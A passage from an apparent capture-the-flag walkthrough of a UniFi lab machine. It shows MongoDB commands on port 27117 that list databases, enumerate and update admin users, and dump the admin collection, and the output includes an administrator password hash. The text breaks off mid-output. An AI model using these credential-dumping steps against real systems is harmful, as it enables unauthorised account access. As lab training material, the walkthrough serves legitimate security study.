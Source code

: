 !

And there is mongodb at the port 27117

## Task 9

What is the default database name for UniFi applications?

Connect to mongo db and list databases

```
mongo --port 27117
show dbs
```

![1_peKRBZmQE1V6FTzG6_MSdg.webp](1_peKRBZmQE1V6FTzG6_MSdg.webp)

## Task 10

What is the function we use to enumerate users within the database in MongoDB?

```bash
db.admin.find()
```

## Task 11

 What is the function we use to update users within the database in MongoDB? 

```bash
db.admin.update()
```

## Task 12

 What is the password for the root user? 

Use this command to dump all the passwords in the database :

```
unifi@unified:/usr/lib/unifi$ mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"
<17 ace --eval "db.admin.find().forEach(printjson);"
MongoDB shell version v3.6.3
connecting to: mongodb://127.0.0.1:27117/ace
MongoDB server version: 3.6.3
{
 "_id" : ObjectId("61ce278f46e0fb0012d47ee4"),
 "name" : "administrator",
 "email" : "administrator@unified.htb",
 "x_shadow" : "$6$nCiz.BUHQGQ8KpZv$pRaZabdm03bPBxVyaG6OKs/dmMASG6DxTC30/IceWjGVeXtBbYshFjuAGOJOJcEQhE4.4x0ETwCS/92wsa7W51",
```
